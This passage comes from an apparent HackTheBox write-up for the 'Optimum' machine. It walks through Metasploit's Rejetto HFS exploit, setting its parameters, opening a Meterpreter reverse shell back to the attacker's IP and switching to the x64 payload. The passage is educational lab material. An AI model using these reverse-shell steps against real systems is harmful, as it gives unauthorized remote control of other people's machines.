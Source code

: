 Most of the time, your metasploit payload will require some sort of connection back to your computer. This means the localhost IP, called `LHOST` by metasploit, needs to be set. Often, metasploit will attempt to guess what this address is, and it frequently uses the wrong one.

Since we are connected to the HackTheBox VPN, we want to use our HTB IP, not our local network adresss. I always forget my IP, but we can quickly run `ifconfig` in another terminal to see what our `tun0` (yours might be `tun1` or something else depending on your network setup) address is. 
All HTB box addresses are `10.10.10.xxx` and your machine's address will be `10.10.xx.xx`

This exploit assumes we want to use the powerful Meterpreter reverse shell as our payload, and since Rejetto runs only on Windows, it will automatically use the Windows version of this payload.

Now that we know what we are doing, we can set our parameters.

* `set RHOST 10.10.10.8`  -  Tells metasploit Optimum's Address.
* `set LHOST 10.10.xx.xx`  -   Set this to your HTB IP, this is for the meterpreter connection
* `set SRVHOST 10.10.xx.xx`   -   Also set this to your HTB IP, it is for hosting the exploit file.
* `set LPORT 51000` - Set this value to your liking, but I like to use ports > 50,000 since they are dynamic.

![Initial Rejetto Expl Parameters](https://i.imgur.com/0leSr4g.png "Inital Rejetto Expl Parameters")

* `run`   -   With all our parameters set, we can turn our hamster loose.

![Initial Meterpreter Session Started](https://i.imgur.com/W90SIuQ.png "Initial Meterpreter Session Started")

[We're in.](https://media.giphy.com/media/YQitE4YNQNahy/giphy.gif) The first thing we'll want to do is gain more information about the system. 
Meterpreter has a set of commands based on Unix that work no matter what operating system it is running on.
You can view a [nice cheat sheet of these commands here.](https://www.sans.org/security-resources/sec560/misc_tools_sheet_v1.pdf)

The command we want to run is `sysinfo` - this will tell us more about the system.

![sysinfo](https://i.imgur.com/iQepKBI.png "sysinfo")

If we look closely, we can see that something's not right here. 
Optimum's architecture is __x64__. Our meterpreter version is set to _x86_, not __x86_64__! If we are going to proceed, we are going to need to change this.

In your meterpreter shell, simply run `background` to go back to your msfconsole command line.
Then run `show options` again to see what payload metasploit assumed we wanted to use.

![default rejetto parameters](https://i.imgur.com/PtRK9FA.png "default rejetto parameters")

This is almost correct. The payload is set to `windows/meterpreter/reverse_tcp` - which connects back over a TCP port from a Windows machine. However, this doesn't specify an architecture, and defaults to x86, not x86_64. 
This is easy enough to fix, however. We just need to specify.

`set payload windows/x64/meterpreter/reverse_tcp`

![a new meterpreter](https://i.imgur.com/y8Bn1I1.png "a new meterpreter")

Since we have the other meterpreter still running, we need to set the `LPORT` again.
